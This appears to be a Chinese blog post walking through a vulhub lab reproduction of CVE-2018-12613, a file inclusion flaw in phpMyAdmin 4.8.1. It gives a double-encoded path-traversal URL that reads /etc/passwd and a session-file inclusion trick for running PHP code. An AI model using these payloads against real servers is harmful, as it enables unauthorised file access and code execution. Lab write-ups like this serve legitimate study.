

# phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）（Kali） - GK-SZero - 博客园

> 原文：[`www.cnblogs.com/SZero/p/16214275.html`](https://www.cnblogs.com/SZero/p/16214275.html)

​

** phpMyAdmin 是一套开源的、基于 Web 的 MySQL 数据库管理工具。其 index.php 中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。**

**通过 vulhub 靶场进行复现操作**

**1.首先搭建靶场环境（采用 Kali）**

```
cd vulhub/phpmyadmin/CVE-2018-12613  //进入对应漏洞目录，具体参照 vulhub.org
 sudo docker-compose build           //编译相对应环境 
 sudo docker-compose -up -d         //搭建靶场环境
```


**搭建成功**

​

**环境启动后，访问`http://your-ip:8080`，即可进入 phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录 test 账户。（确保 8080 端口不被占用才能正常启动靶场环境，8080 端口占用原因可能是靶场环境未关闭）**

```
lsof -i:8080   //查看 8080 端口状态，可反映进程的 PID 号
 kill PID 号 //解除占用
 cd .. //返回上级目录 
 cd ~      //打开当前用户的主目录 
 cd -      //返回进入目录 
 cd /      //打开根目录 
 重新进行靶场启动，即可正常启动
```


**进入成功**

​

## 漏洞复现

**访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：**

​

** 利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的 sessionid（cookie 中 phpMyAdmin 的值），然后包含 session 文件即可：**

**总结：该漏洞操作简单，不用复杂的操作，很适合新手练练手！**

**最后别忘了关机靶场环境噢    sudo docker-compose down**

​

​